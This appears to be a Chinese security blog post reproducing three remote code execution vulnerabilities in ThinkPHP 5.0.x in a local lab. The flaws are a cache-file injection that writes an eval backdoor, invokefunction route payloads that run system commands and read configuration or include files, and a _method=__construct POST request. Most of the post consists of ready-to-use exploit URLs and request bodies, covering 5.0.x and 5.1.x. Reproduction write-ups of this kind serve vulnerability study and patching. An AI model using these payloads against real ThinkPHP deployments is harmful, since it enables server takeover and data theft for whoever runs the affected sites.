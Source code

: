 title: ThinkPHP 5 代码执行漏洞复现+POC
categories:
  - 漏洞复现
tags:
  - 漏洞
  - RCE
  - 漏洞复现
  - ThinkPHP 5
  - ThinkPHP
author: Chace
date: 2020-06-09 20:07:00
---
## ThinkPHP 5.0.10 环境框架搭建

ThinkPHP是一个免费开源的，快速、简单的面向对象的轻量级PHP开发框架，是为了敏捷WEB应用开发和简化企业应用开发而诞生的。ThinkPHP从诞生以来一直秉承简洁实用的设计原则，在保持出色的性能和至简的代码的同时，也注重易用性。
<!--more-->
![](1.png)
查看当前版本
![](2.png)
环境搭建成功


## 缓存类导致RCE

### 版本

>5.0.0<=ThinkPHP5<=5.0.10
    
### 测试payload

**漏洞利用条件**

1. 基于tp5开发的代码中使用了Cache::set 进行缓存
2. 在利用版本范围内
3. runtime目录可以访问

创建一个生成缓存的页面
![](3.png)
构造payload如下：

>http://127.0.0.1/public/?username=syst1m%0d%0a@eval($_GET[_]);//
    
成功在缓存文件写入payload

![](4.png)

>http://127.0.0.1/runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php?_=phpinfo();

![](5.png)

成功执行代码
    
## 未开启强制路由导致rce

### 版本

>5.0.0<=ThinkPHP5<=5.0.10
    
### 测试payload

>5.1.x ：
``` html
    ?s=index/\think\Request/input&filter[]=system&data=pwd
    ?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
    ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
    ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
>5.0.x ：
``` html
    ?s=index/think\config/get&name=database.username # 获取配置信息
    ?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
    ?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
    ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

当前环境版本是5.0.10，构造payload如下：

>http://127.0.0.1/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

![](6.png)
成功执行代码

## method任意调用方法导致rce

### 版本

>5.0.0<=ThinkPHP5<=5.0.10
    
### 测试payload

构造payload如下：
```
POST /index.php?s=index HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=whoami
```

![](7.png)
成功执行代码
## 参考

[Thinkphp5 RCE总结](https://xz.aliyun.com/t/7792#toc-0)
[Thinkphp5 代码执行学习](https://y4er.com/post/thinkphp5-rce)
